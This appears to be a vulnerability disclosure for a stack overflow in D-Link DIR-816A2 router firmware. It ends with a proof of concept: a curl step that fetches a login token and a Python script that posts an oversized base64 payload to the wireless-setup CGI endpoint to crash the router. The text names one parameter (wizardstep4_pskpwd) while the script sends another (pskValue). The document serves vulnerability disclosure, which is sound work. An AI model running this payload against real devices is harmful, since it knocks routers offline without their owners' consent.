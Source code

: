 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2WlanBasicSetup.cgi and /goform/form2Wl5BasicSetup.cgi.  With the setSecurity function,the contents obtained by the wizardstep4_pskpwd parameter are passed to V9, and then the contents matched by V9 are decoded and put into the V17 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests
import base64

tokenid = ''

url = 'http://192.168.0.1/goform/form2WlanBasicSetup.cgi' #/goform/form2Wl5BasicSetup.cgi

payload = base64.b64encode(b'a' * 10000)

data = {
    'tokenid': tokenid,
    'method': '4',
    'pskValue': payload

}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

You can see the router crash
